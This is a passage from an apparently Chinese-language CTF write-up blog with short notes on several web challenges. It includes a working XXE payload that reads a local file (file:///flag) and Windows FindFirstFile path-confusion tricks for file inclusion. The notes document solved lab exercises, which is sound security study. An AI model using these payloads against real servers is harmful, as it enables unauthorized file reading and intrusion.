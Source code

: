 ## 0x07 [GKCTF 2021]babycat-revenge

```
printwriter xmldecoder 反序列化`就有`https://www.cnblogs.com/peterpan0707007/p/10565968.html
```

前面的都做过，就不用多说了....

## 0x08 [RoarCTF 2019]PHPShe

抄wp都没通，无语

## 0x09 [FireshellCTF2020]Cars

![image-20220127111502435](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220127111502435.png)

输入可控的位置，我们post数据上去，发现直接传输键值对，返回bad_data,于是我们猜想是不是该用json，发现成功，json可以的话xml也可以，发现不仅可以而且有回显，成功打出。

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///flag" >]>  
 <test>     
<name>&xxe;</name>
<message>
123
</message>
</test>
```

## 0x0A [Windows]LFI2019

参考链接: https://xz.aliyun.com/t/6655

这个题目**FindFirstFile**，主要利用的是这个winapi。然后我对里面进行深入的分析，发现了以下几个比较好玩的trick。其会把`"`解释为`.`。意即：`shell"php` === `shell.php`。`>`被替换成`?`，字符`<`被替换成`*`，而符号”（双引号）被替换成一个`.`字符

这里我们在包含文件的时候就可以这样传递：`"/test`这个就会被解析成为`./test`是没有问题的
